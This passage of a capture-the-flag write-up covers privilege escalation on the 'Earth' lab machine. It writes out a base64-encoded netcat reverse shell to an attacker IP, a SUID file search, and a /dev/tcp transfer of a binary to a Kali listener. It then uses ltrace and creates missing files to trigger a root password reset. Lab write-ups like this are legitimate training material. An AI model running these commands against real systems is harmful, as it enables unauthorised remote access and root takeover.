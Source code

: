 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```
```find / -perm -u=s -type f  2>/dev/null```


<img width="516" height="378" alt="image" src="https://github.com/user-attachments/assets/ead9403b-2a8c-4a12-8a09-553410c10be9" />


Look’s like what we need from the word itself .
Check file type: ```file /usr/bin/reset_root```


Try to run : ```reset_root``` → not executable yet.


<img width="1315" height="64" alt="image" src="https://github.com/user-attachments/assets/7ed5e9b1-068b-4beb-be60-5e77702c8402" />



**6. Privilege Escalation**


File is not executable. Yet.
Now, I will send the file to the kali using netcat to utilize other tools.


Open new terminal and type : ```nc -lvnp 3333 > reset_root```


Back to terminal that connected to the earth, type : 
```cat /usr/bin/reset_root > /dev/tcp/ <kali_IP>//3333```


<img width="1125" height="203" alt="image" src="https://github.com/user-attachments/assets/7d8b135b-91d8-4ecd-b175-42fb8d0e3041" />


Confirm transfer with ```ls```

<img width="1122" height="120" alt="image" src="https://github.com/user-attachments/assets/7cfa0fba-554b-40de-899c-bd0de8cf025f" />


Next, install ‘ltrace’ : ```sudo apt install ltrace```
run ‘ltrace’ to the file : ```ltrace ./reset_root```


<img width="1125" height="366" alt="image" src="https://github.com/user-attachments/assets/a5c6a15c-9e6e-4810-9a61-c0b15059bfa2" />


The highlighted are the files that are missing to execute the file. We need to create it in our netcat connection on the earth.local
```touch + [the filepath from the ltrace results]``` then press enter.


After creating all required files, Run the ```reset_root``` again. You see that the root password is reset to ‘Earth’


<img width="802" height="200" alt="image" src="https://github.com/user-attachments/assets/fa785e5c-387b-4400-b455-3b93050bc6c6" />

```